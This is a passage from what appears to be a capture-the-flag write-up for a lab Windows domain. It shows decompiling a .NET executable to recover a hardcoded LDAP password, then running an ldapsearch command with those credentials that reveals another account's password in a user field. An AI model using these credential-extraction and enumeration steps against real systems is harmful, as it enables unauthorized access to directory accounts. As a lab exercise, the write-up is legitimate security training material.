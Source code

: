 Open the .exe binary in dnSpy, go through the code and we find ..

.. the user which is used to do the ldap queries, `support\ldap`. (UserInfo.Services.LdapQuery)
![[Pasted image 20220801164008.png]]

.. the encrypted password (`0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E`)  for `support\ldap` and the function used to decrypt it. (UserInfo.Services.Protected)
![[Pasted image 20220801164303.png]]

We can simply extract the password by setting a breakpoint on the return function and look at the values of `array`. Within we find 36 hex values, throw them into [cyberchef](https://gchq.github.io/CyberChef/)and we get:
```bash
hex: 6e764566454b31365e31614d3424653741636c55663878247452577850574f31256c6d7a
ascii: nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

### Step 3

We can now do ldap queries and find all users:
```bash
➜  support ldapsearch -x -H ldap://10.129.146.169 -D 'support\ldap' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb"
[... snip ...]
# support, Users, support.htb
dn: CN=support,CN=Users,DC=support,DC=htb
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: support
c: US
l: Chapel Hill
st: NC
postalCode: 27514
distinguishedName: CN=support,CN=Users,DC=support,DC=htb
instanceType: 4
whenCreated: 20220528111200.0Z
whenChanged: 20220528111201.0Z
uSNCreated: 12617
info: Ironside47pleasure40Watchful

[... snip ...]

# DnsAdmins, Users, support.htb
dn: CN=DnsAdmins,CN=Users,DC=support,DC=htb
objectClass: top
objectClass: group
cn: DnsAdmins
description: DNS Administrators Group
distinguishedName: CN=DnsAdmins,CN=Users,DC=support,DC=htb
instanceType: 4
whenCreated: 20220528110517.0Z
whenChanged: 20220528110517.0Z
uSNCreated: 12487
uSNChanged: 12489
name: DnsAdmins
```
